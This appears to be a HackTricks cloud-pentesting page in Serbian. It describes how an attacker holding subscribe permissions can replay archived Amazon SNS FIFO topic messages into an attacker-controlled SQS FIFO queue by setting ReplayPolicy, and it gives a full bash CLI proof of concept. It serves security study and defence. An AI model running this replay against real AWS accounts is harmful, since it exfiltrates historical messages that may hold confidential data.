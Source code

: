 # SNS FIFO Archive Replay Exfiltration via Attacker SQS FIFO Subscription

{{#include ../../../../banners/hacktricks-training.md}}

Zloupotreba arhiviranja poruka na Amazon SNS FIFO topic-u za replay i exfiltrate prethodno objavljenih poruka na attacker-controlled SQS FIFO queue podešavanjem ReplayPolicy na subscription.

- Servis: Amazon SNS (FIFO topics) + Amazon SQS (FIFO queues)
- Zahtevi: Topic mora imati omogućen ArchivePolicy (message archiving). Attacker može Subscribe-ovati na topic i postaviti atribute na svoju subscription. Attacker kontroliše SQS FIFO queue i dozvoljava topic-u da šalje poruke.
- Uticaj: Istorijske poruke (objavljene pre subscription) mogu biti isporučene attacker endpoint-u. Replayed deliveries su označene sa Replayed=true u SNS envelope-u.

## Preduslovi
- SNS FIFO topic sa omogućenim arhiviranjem: `ArchivePolicy` (npr. `{ "MessageRetentionPeriod": "2" }` za 2 dana).
- Attacker ima dozvole za:
- `sns:Subscribe` na ciljnom topic-u.
- `sns:SetSubscriptionAttributes` na kreiranoj subscription-i.
- Attacker ima SQS FIFO queue i može da priloži queue policy koji omogućava `sns:SendMessage` sa topic ARN-a.

## Minimalne IAM dozvole
- Na topic-u: `sns:Subscribe`.
- Na subscription-u: `sns:SetSubscriptionAttributes`.
- Na queue-u: `sqs:SetQueueAttributes` za policy, i queue policy koja dozvoljava `sns:SendMessage` sa topic ARN-a.

## Napad: Replay arhiviranih poruka na attacker SQS FIFO
Attacker subscribe-uje svoj SQS FIFO queue na victim SNS FIFO topic, zatim podešava `ReplayPolicy` na timestamp iz prošlosti (u okviru vremenskog perioda zadržavanja arhive). SNS odmah replay-uje odgovarajuće arhivirane poruke na novu subscription i označava ih sa `Replayed=true`.

Notes:
- Timestamp koji se koristi u `ReplayPolicy` mora biti >= topic-ovog `BeginningArchiveTime`. Ako je raniji, API vraća `Invalid StartingPoint value`.
- Za SNS FIFO `Publish`, morate navesti `MessageGroupId` (i ili dedup ID ili omogućiti `ContentBasedDeduplication`).

<details>
<summary>End-to-end CLI POC (us-east-1)</summary>
```bash
REGION=us-east-1
# Compute a starting point; adjust later to >= BeginningArchiveTime if needed
TS_START=$(python3 - << 'PY'
from datetime import datetime, timezone, timedelta
print((datetime.now(timezone.utc) - timedelta(minutes=15)).strftime('%Y-%m-%dT%H:%M:%SZ'))
PY
)

# 1) Create SNS FIFO topic with archiving (2-day retention)
TOPIC_NAME=htreplay$(date +%s).fifo
TOPIC_ARN=$(aws sns create-topic --region "$REGION" \
--cli-input-json '{"Name":"'"$TOPIC_NAME"'","Attributes":{"FifoTopic":"true","ContentBasedDeduplication":"true","ArchivePolicy":"{\"MessageRetentionPeriod\":\"2\"}"}}' \
--query TopicArn --output text)

echo "Topic: $TOPIC_ARN"

# 2) Publish a few messages BEFORE subscribing (FIFO requires MessageGroupId)
for i in $(seq 1 3); do
aws sns publish --region "$REGION" --topic-arn "$TOPIC_ARN" \
--message "{\"orderId\":$i,\"secret\":\"ssn-123-45-678$i\"}" \
--message-group-id g1 >/dev/null
done

# 3) Create attacker SQS FIFO queue and allow only this topic to send
Q_URL=$(aws sqs create-queue --queue-name ht-replay-exfil-q-$(date +%s).fifo \
--attributes FifoQueue=true --region "$REGION" --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region "$REGION" \
--attribute-names QueueArn --query Attributes.QueueArn --output text)

cat > /tmp/ht-replay-sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$TOPIC_ARN"}}}]}
JSON
# Use CLI input JSON to avoid quoting issues
aws sqs set-queue-attributes --region "$REGION" --cli-input-json "$(python3 - << 'PY'
import json, os
print(json.dumps({
'QueueUrl': os.environ['Q_URL'],
'Attributes': {'Policy': open('/tmp/ht-replay-sqs-policy.json').read()}
}))
PY
)"

# 4) Subscribe the queue to the topic
SUB_ARN=$(aws sns subscribe --region "$REGION" --topic-arn "$TOPIC_ARN" \
--protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)

echo "Subscription: $SUB_ARN"

# 5) Ensure StartingPoint is >= BeginningArchiveTime
BEGIN=$(aws sns get-topic-attributes --region "$REGION" --topic-arn "$TOPIC_ARN" --query Attributes.BeginningArchiveTime --output text)
START=${TS_START}
if [ -n "$BEGIN" ]; then START="$BEGIN"; fi

aws sns set-subscription-attributes --region "$REGION" --subscription-arn "$SUB_ARN" \
--attribute-name ReplayPolicy \
--attribute-value "{\"PointType\":\"Timestamp\",\"StartingPoint\":\"$START\"}"

# 6) Receive replayed messages (note Replayed=true in the SNS envelope)
aws sqs receive-message --queue-url "$Q_URL" --region "$REGION" \
--max-number-of-messages 10 --wait-time-seconds 10 \
--message-attribute-names All --attribute-names All
```
</details>

## Uticaj
**Potencijalni uticaj**: Napadač koji može да се претплати на SNS FIFO topic са омогућеним архивирањем и да подеси `ReplayPolicy` на својој претплати може одмах да изврши replay и exfiltrate историјске поруке објављене на тој topic, не само поруке послате након креирања претплате. Достављене поруке укључују `Replayed=true` заставицу у SNS envelope.

{{#include ../../../../banners/hacktricks-training.md}}
